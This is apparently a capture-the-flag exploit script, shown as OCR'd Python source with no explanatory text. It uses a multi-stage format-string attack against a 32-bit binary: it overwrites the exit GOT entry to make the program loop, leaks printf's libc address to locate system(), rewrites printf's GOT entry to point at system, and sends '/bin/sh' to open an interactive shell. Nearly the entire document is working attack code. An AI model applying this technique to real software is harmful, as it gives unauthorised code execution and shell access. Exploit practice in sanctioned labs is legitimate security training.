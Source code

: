 ```python
main_addr = 0x0804851b

payload = 'A'*2
payload += p32(printf_got)
payload += p32(exit_got)



payload += '%11$n'
pause()

# stage 1: loop
p1 = 'A'*2
p1 += p32(exit_got)
p1 += p32(exit_got+2)
p1 += '%{}x'.format(0x851b-10)
p1 += '%11$hn'
p1 += '%{}x'.format((0x10000-(0x851b))+0x0804)
p1 += '%12$hn'
sh.sendlineafter('.\n', p1)

# stage 2: find libc version
# https://libc.blukat.me/?q=_IO_printf%3A020%2C_IO_fgets%3A620&l=libc6-i386_2.23-0ubuntu11_amd64
# p2 = 'A'*2
# p2 += p32(printf_got)
# p2 += '%11$s'

# sh.sendlineafter('.\n', p2)

# print hex(u32(sh.recvuntil('back').split('\n')[0][6:6+4])) #0xf7dd4020

# p2 = 'A'*2
# p2 += p32(fgets_got)
# p2 += '%11$s'

# sh.sendlineafter('.\n', p2)

# print hex(u32(sh.recvuntil('back').split('\n')[0][6:6+4])) #0xf7de8620

# stage 3: leak libc base and find system

p3 = 'A'*2
p3 += p32(printf_got)
p3 += '%11$s'

sh.sendlineafter('.\n', p3)

libc_base = u32(sh.recvuntil('back').split('\n')[0][6:6+4]) - 0x049020
system_addr = libc_base + 0x03a940

# stage 4: change prinf to system and win
p1 = 'A'*2
p1 += p32(printf_got)
p1 += p32(printf_got+2)
p1 += '%{}x'.format((system_addr&0xffff)-10)
p1 += '%11$hn'
p1 += '%{}x'.format((0x10000-(system_addr&0xffff))+(system_addr >> 16))
p1 += '%12$hn'
sh.sendlineafter('.\n', p1)

sh.sendlineafter('.\n', '/bin/sh')

sh.interactive()
```
